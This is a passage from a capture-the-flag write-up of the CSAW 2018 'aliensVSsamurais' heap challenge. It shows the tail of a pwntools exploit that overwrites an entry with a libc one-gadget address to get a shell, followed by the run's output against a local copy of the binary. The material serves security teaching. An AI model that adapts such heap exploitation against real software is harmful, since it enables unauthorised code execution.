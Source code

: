 ```
editAlien(-4, p64(libcBase + 0x45216))

# Enjoy your shell!
target.interactive()
```

When we run the exploit:

```
$ python exploit.py
[+] Starting local process './aliensVSsamurais': pid 18692
[*] '/Hackery/pod/modules/custom_misc_heap/csaw18_alienVSsamurai/aliensVSsamurais'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/Hackery/pod/modules/custom_misc_heap/csaw18_alienVSsamurai/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Daimyo, nani o shitaidesu ka?
Brood mother, what tasks do we have today.

How long is my name?

What is my name?

Brood mother, what tasks do we have today.

How long is my name?

What is my name?

Brood mother, what tasks do we have today.

How long is my name?

What is my name?

Brood mother, what tasks do we have today.

How long is my name?

What is my name?

Brood mother, what tasks do we have today.

Which alien is unsatisfactory, brood mother?

EEEEEAAAAUGGHGGHGHGAAAAa
Brood mother, what tasks do we have today.

Which alien is unsatisfactory, brood mother?

EEEEEAAAAUGGHGGHGHGAAAAa
Brood mother, what tasks do we have today.

Which alien is unsatisfactory, brood mother?

EEEEEAAAAUGGHGGHGHGAAAAa
Brood mother, what tasks do we have today.
```